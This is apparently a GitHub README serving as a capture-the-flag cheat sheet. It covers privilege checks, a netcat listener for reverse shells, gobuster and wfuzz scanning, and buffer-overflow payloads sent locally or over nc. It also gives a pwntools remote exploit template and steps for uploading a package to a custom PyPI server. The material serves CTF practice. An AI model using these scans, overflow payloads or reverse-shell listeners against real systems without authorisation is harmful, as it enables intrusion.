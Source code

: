 # ctf-cheatsheet
This repo comprises useful code bytes for solving common ctf tasks.

## linux privileges
##### get current user
```bash
whoami
```
##### check, what can be executed with root
```bash
sudo -l
```
## linux network
##### change hosts file
```bash
sudo nano /etc/hosts
```
##### listen for reverse shell exploits
```bash
nc -lvp 1234
```
##### scan for folders
###### gobuster
```bash
gobuster dir -u domain.com -w /home/dir/wordlist.txt
```
##### scan for subdomains
1) add main domain to hosts
2) run wfuzz (here: hide results with code 301)
```bash
wfuzz -c -w /home/path/subdomains.txt -u "http://domain.com" -H "Host: FUZZ.domain.com" -t 50 --hc 301
```
## buffer overflow
##### execute locally, string as text input
###### bash
```bash
run <<< $(python -c 'print(188*"\x41" + "\xe2\x91\x04\x08" + "\x43" * 4 + "\xef\xbe\xad\xde"+ "\x0d\xd0\xde\xc0" )')
```
##### execute remotely, string as text input
###### bash
```bash
echo $(python -c 'print(188*"\x41" + "\xe2\x91\x04\x08")') | nc 123.123.123.123 32123
```
###### pwntools
```bash
from socket import socket
from pwn import *
ip = "sub.domain.com"
port = 1234
ret = 0x080491e2
no = 0x32432342
para_1 = 0xdedebebe
para_2 = 0xc0c00d0d
payload_len = 200 + 20
payload = "A" * payload_len
payload += p32(ret)
payload += p32(no)
payload += p32(para_1)
payload += p32(para_2)
r = remote(ip, port)
r.recvline()
r.sendline(payload)
r.interactive()
```

## python packages
##### build python package
```bash
python3 setup.py sdist bdist_wheel
```

##### upload with twine
```bash
python3 -m twine upload --repository-url http://pypi.domain.com:8080 /home/path/dist/* --verbose
```
-> enter username and password
